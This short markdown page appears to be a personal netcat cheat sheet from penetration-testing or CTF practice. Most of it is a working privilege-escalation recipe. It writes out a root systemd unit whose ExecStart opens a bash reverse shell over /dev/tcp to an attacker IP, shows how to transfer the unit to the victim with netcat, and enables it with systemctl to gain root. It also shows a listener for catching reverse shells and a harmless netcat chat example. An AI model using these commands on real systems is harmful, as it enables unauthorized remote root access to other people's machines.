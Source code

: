 # Netcat

## Example 1

Start netcat listening on e.g. port 1234

```sh
nc -lvnp 1234
```

Once payload is triggered netcat will open a reverse shell:

![netcat_injecttest](_netcat_injecttest.jpg)

## Example 2

Create 0xfab1.service in /temp/

```txt
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.193.173/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

- move file to /temp/ of www-data from attacker box:
 -on victim: ```nc -vl 44444 > fab.service```
- on attacker:  ```nc -n TargetIP 44444 < fab.service```
- on attacker now start a new netcat session on 9999: ```nc -lvnp 9999```

Now use systemctl on victim machine and we should be root from the attacker box:

```sh
/bin/systemctl enable /tmp/fab.service
/bin/systemctl start fab
```

## Chat between two users

User 1 (with IP 10.9.182.239) runs this command:

```sh
nc -l -p 3303
```

Other chat user then runs this command:

```sh
nc 10.9.182.239 3303
```
